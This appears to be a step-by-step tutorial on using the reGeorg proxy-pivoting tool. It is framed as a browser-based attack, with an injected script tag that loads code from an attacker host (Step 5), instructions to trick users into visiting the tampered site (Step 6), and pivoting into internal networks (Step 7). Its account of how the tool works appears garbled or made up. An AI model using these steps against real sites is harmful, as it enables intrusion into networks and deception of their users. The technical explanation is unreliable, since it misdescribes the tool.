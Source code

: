 # reGeorg - A web socks proxy tool

reGeorg is a powerful tool that facilitates proxy pivoting, enabling an ethical hacker to establish a connection from a compromised user's browser to the attacker's machine. This connection serves as a channel to bypass network restrictions and gain access to internal resources. It leverages techniques such as tunneling HTTP traffic over a WebSocket connection to achieve its objectives.

Below is a step by step tutorial on how to use the tool:
## Step 1: Set up your environment

Ensure you have a target system or network that you have permission to test.
Prepare a machine for launching the attack and installing reGeorg. This machine will act as your attacker machine.

## Step 2: Download and install reGeorg

Visit the GitHub repository of reGeorg (https://github.com/sensepost/reGeorg) and download the latest version of the tool.
Extract the downloaded file to a directory on your attacker machine.

## Step 3: Configure your attacker machine

Make sure your attacker machine has the necessary dependencies installed, such as Python and PHP.
Set up a web server on your attacker machine. For example, you can use Apache or Nginx.
Move the reGeorg script to the web server's document root.

## Step 4: Launch the reGeorg server

Open a terminal or command prompt on your attacker machine.
Navigate to the directory where you extracted reGeorg.
Start the reGeorg server by running the following command:

```
python reGeorgSocksProxy.py -p <port_number>
```
Replace <port_number> with the port on which you want the server to listen. The default port is 8080.

## Step 5: Prepare the payload

Identify the target website or application you want to attack.
Modify the source code of the target website or application to include a reference to the reGeorg script. For example, you can add the following line of code within a <script> tag:

```
<script src="http://<attacker_ip>:<port_number>/georg.js"></script>
```

Replace <attacker_ip> with the IP address of your attacker machine and <port_number> with the port number you specified in the previous step.

## Step 6: Trigger the payload

Host the modified target website or application on a server or test environment.
Trick the target user or perform a penetration test by getting the user to visit the modified target website or application.
When the user's browser loads the website or application, the reGeorg script will be fetched and executed, establishing a connection to your reGeorg server.

## Step 7: Exploit the pivoting capabilities

Once the user's browser establishes a connection with your reGeorg server, you can use it to perform various network pivoting activities.
For example, you can use tools like proxychains or socksify to route traffic through the reGeorg proxy, gaining access to internal systems or resources.

**Remember to exercise caution and always follow legal and ethical guidelines when using such tools.**